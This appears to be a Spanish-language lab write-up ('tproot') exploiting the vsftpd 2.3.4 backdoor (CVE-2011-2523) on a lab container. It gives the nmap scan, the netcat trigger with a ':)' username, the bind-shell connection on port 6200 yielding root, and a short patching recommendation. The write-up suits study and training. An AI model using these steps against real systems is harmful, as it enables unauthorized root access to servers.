

# Explotación de Backdoor CVE-2011-2523 – tproot


## 🧭 1. Fase de Reconocimiento y Enumeración Activa

El objetivo fue identificar los servicios expuestos y determinar posibles vectores de ataque inicial. Utilizamos `nmap` para un mapeo detallado.

### 💻 Comando Ejecutado:


```Bash
sudo nmap -sC -sV -p- -T4 172.17.0.2
```

- **Explicación:** Se realiza un escaneo de todos los puertos (`-p-`), detectando versiones de servicio (`-sV`) y ejecutando scripts de enumeración estándar (`-sC`).
    
- **Hallazgos:**
    
    - **21/tcp (FTP):** `vsftpd 2.3.4`.
        
    - **80/tcp (HTTP):** Servidor web.


## 🔍 2. Análisis de Vulnerabilidad: Backdoor en vsFTPd

La versión `vsftpd 2.3.4` es ampliamente conocida en ciberseguridad por contener un **backdoor** (CVE-2011-2523).

- **Vector de ataque:** El servicio fue configurado intencionadamente para que, al ingresar una secuencia específica de caracteres (`:)`) en el nombre de usuario, el sistema abra automáticamente un _bind shell_ en el puerto **6200/TCP**.


## 🔓 3. Ejecución del Exploit (Backdoor Access)

Para mantener el control y entender el flujo, ejecutamos la explotación de forma manual mediante `netcat`.

### 💻 Paso 1: Activación mediante Payload


```Bash
nc 172.17.0.2 21
# Interacción:
USER hacker:)
PASS 1234
```

- **Explicación:** Al enviar la cadena `hacker:)`, el servidor activa la lógica interna del backdoor, forzando la apertura del puerto 6200/TCP sin necesidad de una sesión FTP válida.


### 💻 Paso 2: Conexión al Bind Shell


```Bash
nc -vn 172.17.0.2 6200
```

- **Resultado:** Conexión exitosa, obteniendo una consola interactiva con privilegios de Root.


## 👑 4. Análisis de Post-Explotación

Al confirmar el UID 0, verificamos que el entorno permite acceso absoluto al sistema:


```Bash
whoami  # Resultado: root
cat /root/flag.txt
```

## 🏁 5. Conclusión y Medidas de Mitigación

Este laboratorio ejemplifica cómo software desactualizado (con más de una década de antigüedad) sigue siendo un vector de entrada trivial si no se aplican políticas de parcheo.

- **Recomendación:** La remediación es directa: actualizar `vsftpd` a una versión estable o asegurar que el código fuente no contenga puertas traseras maliciosas.